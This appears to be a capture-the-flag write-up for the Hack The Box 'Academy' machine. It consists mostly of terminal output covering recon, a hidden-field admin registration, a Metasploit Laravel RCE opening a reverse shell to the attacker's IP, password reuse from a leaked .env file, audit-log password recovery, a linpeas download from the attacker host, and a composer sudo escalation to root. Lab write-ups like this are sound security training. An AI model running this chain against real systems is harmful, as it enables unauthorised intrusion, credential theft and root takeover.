


# htb-academy
Hack The Box - Academy Machine (10.10.10.215)

## Nmap
```
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.10.215  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-11 16:13 EST
Nmap scan report for academy.htb (10.10.10.215)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Hack The Box Academy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.48 seconds
```

## Basic curl to check server response
```
┌──(kali㉿kali)-[~]
└─$ curl -vvv 10.10.10.215                      
*   Trying 10.10.10.215:80...
* Connected to 10.10.10.215 (10.10.10.215) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.215
> User-Agent: curl/7.72.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
< Date: Mon, 11 Jan 2021 21:26:58 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Location: http://academy.htb/
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.10.10.215 left intact
```

302, redirection to academy.htb

### academy.htb to /etc/hosts
host header -> apache virtual servers

### gobuster with common paths
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --wordlist SecLists/Discovery/Web-Content/common.txt --url http://academy.htb  
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://academy.htb
[+] Threads:        10
[+] Wordlist:       SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/11 16:21:31 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin.php (Status: 200)
/images (Status: 301)
/index.php (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/11 16:21:55 Finished
===============================================================
```

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --wordlist SecLists/Discovery/Web-Content/common.txt --url http://academy.htb -x php       130 ⨯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://academy.htb
[+] Threads:        10
[+] Wordlist:       SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2021/01/11 16:26:33 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/admin.php (Status: 200)
/admin.php (Status: 200)
/b.php (Status: 200)
/config.php (Status: 200)
/home.php (Status: 302)
/images (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/s.php (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/11 16:27:19 Finished
===============================================================
```

interesting paths:
/admin.php
/config.php
/home.php
/index.php
/login.php
/register.php


### let's create an user

boolean hidden field in register POST request, 0 -> 1 (administrator)

redirect to /success-page.php
redirect to /home.php


/admin.php


### add dev-staging-01.academy.htb to /etc/hosts
host header -> apache virtual servers

### laravel app



### laravel RCE - metasploit
```
msf6 > search laravel

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/http/laravel_token_unserialize_exec  2018-08-07       excellent  Yes    PHP Laravel Framework token Unserialize Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/http/laravel_token_unserialize_exec
```

```
msf6 > use 0
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options

Module options (exploit/unix/http/laravel_token_unserialize_exec):                                                
                                                                                                                  
   Name       Current Setting  Required  Description                                                              
   ----       ---------------  --------  -----------                                                              
   APP_KEY                     no        The base64 encoded APP_KEY string from the .env file                     
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]             
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'                                                                                                         
   RPORT      80               yes       The target port (TCP)                                                    
   SSL        false            no        Negotiate SSL/TLS for outgoing connections                               
   TARGETURI  /                yes       Path to target webapp                                                    
   VHOST                       no        HTTP server virtual host                                                 
                                                                                                                  
                                                                                                                  
Payload options (cmd/unix/reverse_perl):                                                                          
                                                                                                                  
   Name   Current Setting  Required  Description                                                                  
   ----   ---------------  --------  -----------                                                                  
   LHOST                   yes       The listen address (an interface may be specified)                           
   LPORT  4444             yes       The listen port                                                              


Exploit target:

   Id  Name
   --  ----
   0   Automatic


```

```
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LHOST 10.10.14.189
LHOST => 10.10.14.189                                                                                                                                                                                                                      
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LPORT 1111
LPORT => 1111
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RHOST 10.10.10.215
RHOST => 10.10.10.215
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb
VHOST => dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_KEY => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
```

```
msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options

Module options (exploit/unix/http/laravel_token_unserialize_exec):

   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.215                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.189     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

```
msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.14.189:4444 
[*] Command shell session 7 opened (10.10.14.189:4444 -> 10.10.10.215:45060) at 2021-01-11 17:11:24 -0500
[*] Command shell session 8 opened (10.10.14.189:4444 -> 10.10.10.215:45062) at 2021-01-11 17:11:24 -0500

python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@academy:/var/www/html/htb-academy-dev-01/public$ export TERM=xterm
export TERM=xterm
www-data@academy:/var/www/html/htb-academy-dev-01/public$
```

### check /var/www/html
possibly there will be some password to change to other user
```
www-data@academy:/var/www/html$ ls -la /home
ls -la /home
total 32
drwxr-xr-x  8 root     root     4096 Aug 10 00:34 .
drwxr-xr-x 20 root     root     4096 Aug  7 12:07 ..
drwxr-xr-x  2 21y4d    21y4d    4096 Aug 10 00:34 21y4d
drwxr-xr-x  2 ch4p     ch4p     4096 Aug 10 00:34 ch4p
drwxr-xr-x  4 cry0l1t3 cry0l1t3 4096 Aug 12 21:58 cry0l1t3
drwxr-xr-x  3 egre55   egre55   4096 Aug 10 23:41 egre55
drwxr-xr-x  2 g0blin   g0blin   4096 Aug 10 00:34 g0blin
drwxr-xr-x  6 mrb3n    mrb3n    4096 Jan 11 22:04 mrb3n
```
bingo, .env file in academy virtual server directory:
```
www-data@academy:/var/www/html$ cat academy/.env
cat academy/.env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"

```

### change user
```
www-data@academy:/var/www/html$ su 21y4d
su 21y4d
Password: mySup3rP4s5w0rd!!

su: Authentication failure

www-data@academy:/var/www/html$ su ch4p
su ch4p
Password: mySup3rP4s5w0rd!!

su: Authentication failure
www-data@academy:/var/www/html$ su cry0l1t3 
su cry0l1t3
Password: mySup3rP4s5w0rd!!

$ id
id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
``` 

## USER FLAG
```
$ cd ~
cd ~
$ cat user.txt
cat user.txt
af828f79573d72ab65fa833c80d604bd

```

### linpeas
```
┌──(kali㉿kali)-[~/htb-academy/files]
└─$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
--2021-01-11 17:26:54--  https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.132.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.132.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 318386 (311K) [text/plain]
Saving to: ‘linpeas.sh’

linpeas.sh                   100%[============================================>] 310.92K  --.-KB/s    in 0.1s    

2021-01-11 17:26:54 (2.05 MB/s) - ‘linpeas.sh’ saved [318386/318386]

                                                                                                                  
┌──(kali㉿kali)-[~/htb-academy/files]
└─$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

```
$ wget http://10.10.14.189:8000/linpeas.sh
wget http://10.10.14.189:8000/linpeas.sh
--2021-01-11 22:39:45--  http://10.10.14.189:8000/linpeas.sh
Connecting to 10.10.14.189:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 318386 (311K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 310.92K  1.84MB/s    in 0.2s    

2021-01-11 22:39:45 (1.84 MB/s) - ‘linpeas.sh’ saved [318386/318386]

$ ls
ls
linpeas.sh  user.txt
$ chmod +x linpeas.sh
chmod +x linpeas.sh

```

```
[+] Checking for TTY (sudo/su) passwords in audit logs
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>                                                                                                                                                                                         
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
/var/log/audit/audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A

```

6D7262336E5F41634064336D79210A (hex) -> mrb3n_Ac@d3my! (text)


### change to mrb3n
```
$ id    
id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)

```

### linpeas
```
...
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                                                              
Matching Defaults entries for mrb3n on academy:                                                                                                                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
...
```

```
$ ls -la /usr/bin/composer
ls -la /usr/bin/composer
-rwxr-xr-x 1 root root 1745 Mar 15  2020 /usr/bin/composer
```

## GTFOBins -> our best friend!!!
[GTFOBins](https://gtfobins.github.io/)
[GTFOBins - Composer](https://gtfobins.github.io/gtfobins/composer/)

```
$ TF=$(mktemp -d)
TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo composer --working-dir=$TF run-script x
sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# whoami
whoami
root
# id
id
uid=0(root) gid=0(root) groups=0(root)

```

```
# cat /root/root.txt
cat /root/root.txt
91e2ed4901d6edb782c536d7ae796bc3
```